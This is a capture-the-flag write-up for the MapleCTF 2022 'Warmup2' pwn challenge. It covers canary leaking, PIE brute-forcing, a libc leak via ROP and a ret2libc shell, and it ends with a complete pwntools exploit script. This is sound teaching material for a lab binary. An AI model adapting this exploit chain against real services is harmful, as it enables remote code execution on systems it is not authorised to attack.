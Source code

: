 * TOC
{:toc}

This is a writeup about the 2022 MapleCTF challenge `Warmup2`

# Challenge Background

> Author: =)#9593  
> It's like warmup1, but harder.

This challenge was one of the earlier releases in the `pwn` category. It is also one of the simpler challenges of the CTF with 100 solves by the end. We are given the challenge binary `chal` and a netcat command to connect to the service hosting the binary `nc warmup2.ctf.maplebacon.org 1337`.

# Reconnaissance

First I downloaded the challenge binary - `chal` - from the provided link and ran the `file` command to get an idea of what we're dealing with.

![Screenshot 2022-09-02 024425](https://user-images.githubusercontent.com/71113694/188112684-3f1f29e2-9443-4bd5-bf78-aa332c4660fd.png)

This lets us know we're dealing with a x86-64 elf that is dynamically linked, and is *not* stripped, so we have debug symbols. Next, I ran the `checksec` command to see what kind of protections the binary has enabled.

![image](https://user-images.githubusercontent.com/71113694/188113553-0b3a5ddf-15a8-4195-af07-c4bc750eeff4.png)

Unfortunatly for us, all the protections are active, so exploitation will be a bit more difficult than warmup1 (which did not have the stack canary enabled).

Finally, taking a look at the binary in IDA-pro shows that there are two functions that comprise the functionality of the binary, this being `main` and `vuln`. The `main` function is not of particular interest as it only calls some `setbuf` functions on `stdin` and `_bss_start`, additionally an alarm is set for 60 seconds (likely to prevent a connection from hogging resources). This leaves us to look into the aptly named `vuln` function for a vulerability.

# Vulerability

Lets take a look at the IDA-Pro decompolation of the function to get an overview of what's going on.

![image](https://user-images.githubusercontent.com/71113694/188115423-4106a326-7684-4230-a1a1-1cbb7dc6ef62.png)

This function is very simple and exhibits a basic buffer overflow since we have a char buffer of size 0x108 on the stack, while the read functions read 0x1337 bytes. It is also significant that there are not only two reads, but two `printf` statements that will read the string that's contained in our buffer. This means that we not only have the ability to overflow the buffer and hijack the programs control flow, but we also have the ability to leak values off of the stack if we craft the string in `buf` carefully.

Through this, it seems evident that this challenge involves leaking stack information to bypass the stack canary, buffer overflow to hijack control flow, and ROP into a libc system call.

# Leaking the canary

Leaking the canary is simple since we have the `printf` function call with a `%s` format parameter. This means the function will keep printing bytes until a null byte is read. From this we can have it print out the bytes of the stack canary by overflowing the buffer up to the stack canary **plus one byte** (we must do this to overwrite the null byte of the stack canary). 

*As a side note, keep in mind that the stack may have more information on it after the canary, so the stack canary should only be the first 7 bytes after our input is printed out*

This allows us to then read in the processes stack canary from stdout. Thus, we could overflow the buffer, maintain the stack canary, and hijack the control flow - though we have to remember to add the null byte back into the canary!

# Defeating ASLR

To defeat the PIE of the main binary, we have to do a little bit of brute-forcing. This is fine since we only have to brute force a nibble, and what we're looking for is a successful jump to right before `vuln` is called in `main` (aka the address `0x12d8`). We do this by guessing what the upper nibble of the second least significant byte of the address will be (in my case, I guessed `0xe`), then keep running the command until we are correct - which we'll know when we re-enter vuln and get the welcome text.

Once we're in `vuln` again, we can do the same trick as with the canary to leak the saved return address, which we know should be the address after the function call or `0x12e2`. Once we have that, we can then calculate the binaries base address and trivialise any returns that have to be done within it. This will allow us to ROP into leaking the libc base address **and** then jump back into a `vuln` funciton call for our last ROP chain.

# Finding the Libc Base Address

To leak libc I did a simple puts(puts) leak. To do this, I found a ROP gadget that simply did `pop rdi; ret;`. From here, we simply need to get the address of the puts pointer from the GOT into rdi, then jump into the puts PLT function (note: we do NOT want to have a call into puts, as this will put a return address onto the stack, breaking our ROP chain!). From this, we get the address of puts in libc, but we also want to leak another address so we can figure out which libc the binary is using! Thus, I leaked the address of read as well, and with these two, we can use the website https://libc.rip/ to lookup libc files based on symbol locaitons, we can then search the libc to find whatever else we may need, as well as calculate the base address of the libc based off of either the puts or read address.

# ROP into a Shell

For our final ROP we just do a buffer overflow, preserve the canary, jump to a `ret` to realign the for libc (otherwise we'll get a segfault) then pop `/bin/bash` into rdi and call `system` which will get us a root shell! If this all works, then we should be able to easily read the flag within the server from there.

# Final Script
```python3
#!/bin/env python3 
from pwn import *

FILE = "./chal"
elf = ELF(FILE)

BUFFER_SIZE = 0x110
CANARY_OFFSET = -8
DEBUG = True 

PORT = 1337
HOST = "warmup2.ctf.maplebacon.org"

context.arch = "amd64"
context.encoding = "latin"
context.log_level = "debug" if (DEBUG) else "INFO"
warnings.simplefilter("ignore")

run = True 
while (run):
	p: process = process([FILE]) if (DEBUG) else remote(HOST, PORT)

	# Leak canary
	payload = b'A'*(BUFFER_SIZE + CANARY_OFFSET + 1) # +1 to overwrite the nullbyte of canary
	p.send(payload)
	p.recvuntil(payload)
	
	stackLeak = p.recvline(keepends=False)
	canary = b'\x00' + stackLeak[:7]
	
	# Return to main, preserve canary & RBP
	payload = b'A'*(0x110 + CANARY_OFFSET)
	payload += canary
	payload += b'B'*8
	payload += 0xe2d8.to_bytes(2, 'little') # This is our guess of the binary offset
	p.send(payload)
	p.recvuntil(b'too!')
	
	# Try because we could have just segfaulted if we guessed wrong
	try:
		# Get main address
		p.recvuntil(b'What')
		payload = b'A'*(0x110 + CANARY_OFFSET)
		payload += b'C'*8
		payload += b'B'*8
		p.send(payload)
		
		p.recvuntil(payload)
		mainAddress = p.recvline(keepends=False)[:8][:-1]
		mainAddress = int.from_bytes(mainAddress, 'little', signed=False)
		baseAddress = mainAddress - 0x12e2
	
		payload = b'A'*(0x110 + CANARY_OFFSET)
		payload += canary
		payload += b'B'*8

		# Jump to pop rdi; ret;
		payload += p64(baseAddress + 0x1353) # pop rdi; ret
		payload += p64(baseAddress + 0x3FA8) # Address of puts GOT
		payload += p64(baseAddress + 0x10a4) # Jump to puts
		
		# Jump to pop rdi; ret;
		payload += p64(baseAddress + 0x1353) # pop rdi; ret
		payload += p64(baseAddress + 0x3FD0) # Address of read GOT
		payload += p64(baseAddress + 0x10a4) # Jump to puts

		payload += p64(baseAddress + 0x12d8)

		p.send(payload)
		p.recvuntil(b'!\n')
		putsAddr = p.recvline(keepends=False)
		readAddr = p.recvline(keepends=False)

		print(f"[DEBUG] Puts Address: {putsAddr.hex()}")
		print(f"[DEBUG] Read Address: {readAddr.hex()}")

		putsInt = int.from_bytes(putsAddr, 'little', signed=False)
		libcBase = putsInt - 0x84420

		# Ret 2 libc baby!!!!
		# non payload
		p.recvuntil(b'What')
		payload = b'A'*(0x110 + CANARY_OFFSET)
		payload += b'C'*8
		payload += b'B'*8
		p.send(payload)

		# ret 2 libc # call 
		payload = b'A'*(0x110 + CANARY_OFFSET)
		payload += canary
		payload += b'B'*8

		payload += p64(baseAddress + 0x1353) 	# ret to realign
		payload += p64(libcBase + 0x1b45bd) 	# pop rdi; ret
		payload += p64(baseAddress + 0x101a)	# Get address of /bin/sh into rdi
		payload += p64(libcBase + 0x52290)		# Jump into system
		p.send(payload)
		p.interactive()

		run = False
	except:
		pass
	
	p.close()
```
